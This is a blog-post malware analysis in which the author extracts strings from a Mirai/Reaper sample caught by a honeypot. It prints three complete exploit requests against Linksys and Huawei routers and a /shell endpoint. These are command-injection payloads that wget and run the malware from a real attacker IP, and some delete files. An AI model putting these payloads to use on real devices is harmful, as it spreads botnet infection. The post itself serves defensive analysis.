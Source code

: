 ```yaml
---
layout: post
title:  "Reverse Engineering Mirai/Reaper Malware"
date:   2022-07-20 18:25:33 +0100
category: malware
tags: malware reverse-engineering honey-pot ghidra
---
```


In my previous post, I showed how I set up a honey pot to capture HTTP requests coming to my IP address. Some of the requests where bots attempting to exploit vulnerabilities in order to gain access to devices and services, one of these requests attempted to inject shell commands to download and run a malware.

I download `reap.mpsl` using [curl](http://www.curl.se) so we can have a close look at what the attackers are trying to infect the honey pot with.

Uploading `reap.mpsl` to virustotal we can see that it has been [registered](https://www.virustotal.com/gui/file/5b8900204cb3e3608d48a6c5cd77c58ebf43246dece0c6edf662dfa65ad8348b) as a Mirai/Reaper Malware by several antivirus application, first submitted to virustotal on 2022-06-28

### Analysing with Ghidra
---
By using [Ghidra](https://ghidra-sre.org/) we can disassemble and analyse the malware executable and see if it will reveal any secrets. Looking at Ghidras initial analysis we can see it is a 32bit MIPS executable 

[![About Reaper](/assets/img/reveng-reaper/about-reaper.png)](/assets/img/reveng-reaper/about-reaper.png)

#### Strings
---
The first thing we are going to look at are the text strings that are compiled into the executable, plain text strings give us a easy look into what the exe is doing and what resources it may attempt to use.\
To do this in click `Search -> For Strings...` in the top menu bar, Ghidra will then search the exe for strings and dispaly them.\

[![Reaper Strings](/assets/img/reveng-reaper/strings.png)](/assets/img/reveng-reaper/strings.png)\

Straight away we can see a string that was probably used to attack our honey pot, the highlighted string in the list starts with `POST /tmUnblock.cgi` looking at the my previous post we can see that `/tmUnblock.cgi` was the endpoint the malware was attempt to exploit. Directly below this string we can see what looks like another `POST` request, this time to `/ctrlt/DeviceUpgrade_1` and further down there is a third that looks like a `GET` request to `/shell` with shell commands.\
Next I will extract the strings that look like HTTP attacks so we can have a closer look at what they are trying to do. 

##### Attack 1 (hit our honey pot)
---
Extracting the first suspicious string from Ghidra we can see it contains the following:\


>"POST /tmUnblock.cgi HTTP/1.1\r\nHost: 91.218.67.131:80\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: /\r\nUser-Agent: python-requests/2.20.0\r\nContent-Length: 227\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nttcp_ip=-h+%60cd+%2Ftmp%3B+rm+-rf+mpsl%3B+wget+http%3A%2F%2F91.218.67.131%2Freaper%2Freap.mpsl%3B+chmod+777+reap.mpsl%3B+.%2Freap.mpsl+Reaper.linksys%60&action=&ttcp_num=2&ttcp_size=2&submit_button=&change_action=&commit=0&StartEPI=1"

Tiding it up to make it easier to read:

>"POST /tmUnblock.cgi HTTP/1.1  Host: 91.218.67.131:80  Connection: keep-alive  Accept-Encoding: gzip, deflate  Accept: /  User-Agent: python-requests/2.20.0  Content-Length: 227  Content-Type: application/x-www-form-urlencoded ttcp_ip=-h+`cd+/tmp;+rm+-rf+mpsl;+wget+http://91.218.67.131/reaper/reap.mpsl;+chmod+777+reap.mpsl;+./reap.mpsl+Reaper.linksys`&action=&ttcp_num=2&ttcp_size=2&submit_button=&change_action=&commit=0&StartEPI=1"

We can see that this string contains exactly what was picked up with the honey pot from one of the suspicious request, this is a good indication that it was this Malware exe that made the request. (possibly running on someones infected device) 


##### Attack 2 (POST to /ctrlt/DeviceUpgrade_1)
---
Extracting the second suspicious string we see it contains the following:

>POST /ctrlt/DeviceUpgrade_1 HTTP/1.1  Content-Length: 430  Connection: keep-alive  Accept: */*  Authorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"    <?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(busybox wget -g 91.218.67.131 -l /tmp/bigH -r /reaper/reap.mips;chmod 777 /tmp/bigH;/tmp/bigH huawei.rep.mips;rm -rf /tmp/bigH)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>
http://91.218.67.131/reaper
This attack appears to contain a [Digest access authentication](https://en.wikipedia.org/wiki/Digest_access_authentication) header using the username "dslf-config" this suggests that the Malware is attempting to exploit default username/password that could be on the device.

The body of this attack contains the following XML payload: 
{% highlight XML %}
<?xml version=\"1.0\" ?>
<s:Envelope
  xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
  <s:Body>
    <u:Upgrade
      xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">
      <NewStatusURL>$(busybox wget -g 91.218.67.131 -l /tmp/bigH -r /reaper/reap.mips;chmod 777 /tmp/bigH;/tmp/bigH huawei.rep.mips;rm -rf /tmp/bigH)</NewStatusURL>
      <NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>
    </u:Upgrade>
  </s:Body>
</s:Envelope>
{% endhighlight %}

The XML data is likely used in a upgrade process which will cause the device to download and run ``reap.mips`` 


##### Attack 3 (GET to /shell)
---
Extracting the third suspicious string we see it contains the following:
>GET /shell?cd+/tmp;rm+-rf+*;wget+ 91.218.67.131/reaper/reap.arm4;chmod+777+/tmp/reap.arm4;sh+/tmp/reap.arm4 HTTP/1.1  User-Agent: Hello, world  Host: 127.0.0.1:80  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  Connection: keep-alive

This attack is performing a [HTTP GET](https://reqbin.com/Article/HttpGet) command to ``/shell`` with the following parameter 
``cd+/tmp;rm+-rf+*;wget+ 91.218.67.131/reaper/reap.arm4;chmod+777+/tmp/reap.arm4;sh+/tmp/reap.arm4``
Again, this command will download and run ``reap.arm4``, which is the same malware as seen before but complied to run on arm4 processors.
